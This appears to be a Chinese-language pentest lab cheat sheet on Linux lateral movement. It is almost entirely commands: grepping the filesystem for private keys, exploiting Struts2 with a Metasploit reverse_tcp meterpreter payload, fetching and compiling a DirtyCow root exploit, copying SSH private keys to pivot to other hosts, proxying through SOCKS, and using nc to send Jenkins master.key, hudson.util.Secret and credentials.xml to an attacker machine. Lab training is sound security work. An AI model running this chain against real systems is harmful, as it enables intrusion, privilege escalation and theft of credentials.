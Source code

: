 

### Linux横向移动

~~~
#横向移动-Linux靶场-SSH协议&RSA密匙凭证
~/.ssh/config
~/.ssh/known_hosts
~/.bash_history
一般情况下SSH密钥存放在~/.ssh/目录下，也可以文件中搜索已保存的SSH凭证
grep -ir "BEGIN RSA PRIVATE KEY" /*
grep -ir "BEGIN DSA PRIVATE KEY" /*
grep -ir "BEGIN OPENSSH PRIVATE KEY" /*
参考：https://www.runoob.com/w3cnote/set-ssh-login-key.html

#横向移动-Linux靶场-提权&SSH&密匙&Jenkins等
1、Web DMZ权限获取
信息收集：
nmap 172.16.250.0/24
172.16.250.10 80开放
/struts2-showcase
利用漏洞：
msfconsole
use exploit/multi/http/struts2_content_type_ognl
set payload linux/x64/meterpreter/reverse_tcp
set rhosts 172.16.250.10
set lport 80
run
权限提升：
curl https://raw.githubusercontent.com/sqlnetcat/dirtycow-mem/master/dirtycow-mem.c
upload /root/dirtycow-mem.c /tmp
shell
gcc -Wall -o dirtycow-mem dirtycow-mem.c -ldl -lpthread
python3 -c "import pty;pty.spawn('/bin/bash')"
./dirtycow-mem
持续稳定：
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
echo 1 > /proc/sys/kernel/panic && echo 1 > /proc/sys/kernel/panic_on_oops && echo 1 > /proc/sys/kernel/panic_on_unrecovered_nmi && echo 1 > /proc/sys/kernel/panic_on_io_nmi && echo 1 > /proc/sys/kernel/panic_on_warn
横向移动：
/opt/tomcat/webapps/kittens/WEB-INF/config/opencms.properties
cat ~/.bash_history
cp ~/.ssh/id_rsa /tmp/id_rsa
chmod 777 id_rsa
download  /tmp/id_rsa /root/id_rsa
chmod 0600 id_rsa
ssh -i id_rsa root@172.16.250.30

2、Jenkins DMZ权限获取
信息收集：
getuid
netstat -anpt
172.16.250.30 8080开放
建立节点：
use auxiliary/server/socks_proxy
vim /etc/proxychains4.conf
172.16.250.30 8080开放 jenkins服务
攻击Jenkins：
nc -lvp 1234 > master.key
nc -lvp 1234 > hudson.util.Secret
nc -lvp 1234 > credentials.xml
nc 172.16.250.128 1234 < /home/jenkins/secrets/hudson.util.Secret
nc 172.16.250.128 1234 < /home/jenkins/secrets/master.key
~~~